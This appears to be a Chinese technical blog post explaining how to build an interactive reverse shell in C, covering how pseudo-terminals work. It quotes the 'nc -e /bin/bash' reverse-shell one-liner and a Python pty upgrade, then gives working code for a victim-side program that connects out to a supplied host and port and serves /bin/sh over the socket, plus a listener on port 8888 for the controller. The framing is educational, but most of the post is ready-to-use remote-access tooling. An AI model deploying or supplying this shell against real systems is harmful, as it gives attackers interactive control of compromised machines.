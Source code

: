 ```yaml
---
title: "写一个可交互的反弹 Shell"
date: 2022-05-02T19:19:57+08:00
tags: ["linux"]
---
```


在网上能看到一堆的反弹 Shell 方法，最常见的就是先用 `nc -e /bin/bash $控制机IP $控制机端口` 弹出一个 Shell，然后再用 `python3 -c 'import pty; pty.spawn("/bin/bash")'` 这样来升级成交互式 Shell。这样的话得保证环境里有 nc + python，或者得在被控机上下载多个文件。这样的话，还不如直接自己写一个 Shell 呢 233。

## “可交互 Shell” 的原理

现在常见的“终端模拟器”，例如 KDE 的 Konsole, MACos 上的 iterm，服务器上的 SSH，都是使用 "pty" 来实现的。而我们反弹的 Shell 则不一样，所以无法交互。

而 pty 则是模拟终端的设备。平时使用的终端模拟器是和 pty master 进行沟通，而里面的 shell 是和 pty slave 进行沟通，两者通过 pty 进行沟通。

```plaintext
终端模拟器 <=> | pty master | pty | pty slave | <=> shell
```

所以我们的实现也很简单，通过 socket 将被控端的 master 和控制端连接起来就好了。

```plaintext
终端模拟器 <=> 控制端 <=(socket 通信)=> 被控端 <=> | pty master | pty | pty slave | <=> shell
```

## 代码实现

首先是导入相关文件，"pty.h" 包含 pty 相关函数的定义，而 "select.h" 则是用来处理异步通信的。

```c
#include <pty.h>
#include <sys/select.h>
#include <unistd.h>

#include <stdio.h>
#include <stdlib.h>

#include "util.h"
```

被控端代码很简单，通过传入的 `host` 和 `port` 创建 socket 连接，然后通过 `forkpty` 创建 pty，在父进程中进行 socket 和子进程中的通信。

需要注意的是 `forkpty` 函数，在 FreeBSD 的 `man` 手册的说明如下

```man
The  forkpty()  function  combines  openpty(),  fork(2),  and  login_tty() to create a new
process operating in a pseudoterminal.  A file descriptor referring to master side of  the
pseudoterminal  is  returned  in amaster.  If name is not NULL, the buffer it points to is
used to return the filename of the slave.  The termp and winp arguments, if not NULL, will
determine the terminal attributes and window size of the slave side of the pseudoterminal.
```

简单翻译就是创建一对 pty，并且 fork 出子进程，然后将 master fd 和 pty 连接起来，将子进程的输入和输出和 slave fd 连接起来。这样的话，父进程只要通过 master fd 就可以和处于 pty slave 处的子进程进行沟通。

```c
int main(int argc, char **argv, char **envp) {
  if (argc < 3) {
    printf("Usage: %s [host] [port]\n", argv[0]);
    return -1;
  }
  int port = atoi(argv[2]);
  int socket_fd = 0, master_fd = 0;
  if ((socket_fd = get_socket_connect(argv[1], port)) <= 0) {
    return -2;
  }
  // Use forkpty to handle communication between pty master and socket
  int pid = forkpty(&master_fd, NULL, NULL, NULL);
  if (pid < 0) {
    return -3;
  } else if (pid != 0) {
    // Parent
    copy_loop(master_fd, socket_fd);
  } else {
    // Child
    execve("/bin/sh", NULL, NULL);
    exit(0);
  }
  return 0;
}
```

下面的代码则是在两个 fd 之间互相复制内容。通过 `select` 函数判断哪个 fd 可读，然后将可读 fd 里的内容输出到另一个 fd 里。

```c
static int copy_loop(int fd1, int fd2) {
  plog("%d, %d", fd1, fd2);
  for (;;) {
    fd_set set;
    FD_ZERO(&set);
    FD_SET(fd1, &set);
    FD_SET(fd2, &set);
    if (select(max(fd1, fd2) + 1, &set, NULL, NULL, NULL) <= 0) {
      return -2;
    }
    int read_fd = 0, write_fd = 0;
    if (FD_ISSET(fd1, &set)) {
      read_fd = fd1;
      write_fd = fd2;
    } else if (FD_ISSET(fd2, &set)) {
      read_fd = fd2;
      write_fd = fd1;
    }
    int read_bytes = copy_data(read_fd, write_fd);
    if (read_bytes < 0) {
      return read_bytes;
    }
  }
}
```

而控制端的代码看起来会比较奇怪。首先是打开了 `/proc/self/fd/0`，可以看到这是指向了 `/dev/pts/1`，即打开当前的 pty。

```bash
~/d/chenx6.github.io > ls -la /proc/self/fd
总用量 0
dr-x------ 2 chenx chenx  0  5月  2 19:47 .
dr-xr-xr-x 9 chenx chenx  0  5月  2 19:47 ..
lrwx------ 1 chenx chenx 64  5月  2 19:47 0 -> /dev/pts/1
lrwx------ 1 chenx chenx 64  5月  2 19:47 1 -> /dev/pts/1
lrwx------ 1 chenx chenx 64  5月  2 19:47 2 -> /dev/pts/1
lr-x------ 1 chenx chenx 64  5月  2 19:47 3 -> /proc/1091/fd
lr-x------ 1 chenx chenx 64  5月  2 19:47 51 -> anon_inode:inotify
```

然后是终端的设置。对 `c_lflag` 本地模式进行设置，设置为不回显，uncanonical mode。然后是对 `c_cc` 特殊字符设置不处理 ”^C / ^Z / ^\“。

最后就是创建 socket 连接，复制数据(和被控端类似，区别请见末尾的文件)。当复制结束时则恢复回原本的终端设置。

```c
#include <arpa/inet.h>
#include <fcntl.h>
#include <pty.h>
#include <sys/select.h>
#include <sys/types.h>
#include <termios.h>
#include <unistd.h>

#include <stdio.h>
#include <stdlib.h>

#include "util.h"

int main() {
  // PTY
  int pty_fd = open("/proc/self/fd/0", O_RDWR);
  struct termios terminal, origin_terminal;
  tcgetattr(pty_fd, &terminal);
  origin_terminal = terminal;
  // turn off echo, uncanonical mode
  terminal.c_lflag &= ~ECHO;
  terminal.c_lflag &= ~ICANON;
  // Don't handle ^C / ^Z / ^\
  terminal.c_cc[VINTR] = 0;
  terminal.c_cc[VQUIT] = 0;
  terminal.c_cc[VSUSP] = 0;
  tcsetattr(pty_fd, TCSANOW, &terminal);

  // Socket
  int listen_fd = get_socket_listen("0.0.0.0", 8888);
  socklen_t s;
  struct sockaddr accepted_addr;
  int accepted_fd = accept(listen_fd, &accepted_addr, &s);
  copy_loop(accepted_fd);
  tcsetattr(pty_fd, TCSANOW, &origin_terminal);
  return 0;
}
```

可以看到，很少的代码就能创建一个交互式反弹 Shell，还能复习 UNIX 知识。

完整代码在这：<https://gist.github.com/chenx6/7a51c3cda5c0055a4df5cee66f762fea>

## Refs

- 基于原本的项目，魔改了下，兼容 Python3 <https://github.com/chenx6/python-pty-shells>
- [pseudo-terminal 基础一](https://segmentfault.com/a/1190000019747315)
- [linux select函数解析以及事例](https://zhuanlan.zhihu.com/p/57518857)
